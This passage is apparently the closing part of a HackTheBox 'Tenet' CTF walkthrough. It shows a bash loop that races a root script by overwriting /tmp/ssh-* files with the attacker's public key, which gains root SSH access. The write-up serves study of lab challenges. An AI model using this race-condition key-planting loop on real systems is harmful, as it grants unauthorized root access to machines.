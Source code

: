 I want a loop that will run constantly, looking for files starting with ssh- in /tmp, and replacing their contents with my public key.

```
while true; do for xx in /tmp/ssh-*; do echo "ssh-rsa AAAAB3NzaC1y..." > $xx; done; done
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-15-HackTheBox-Tenet/2021-09-15-HackTheBox-Tenet%2002:52:22.png)

We execute it, and the error message shows that we got it. Because it's a race condition.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-15-HackTheBox-Tenet/2021-09-15-HackTheBox-Tenet%2002:51:35.png)

And we can login ssh with root

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-15-HackTheBox-Tenet/2021-09-15-HackTheBox-Tenet%2002:53:07.png)

We finished it. The code analysis we already did to get the PHP Serialize working.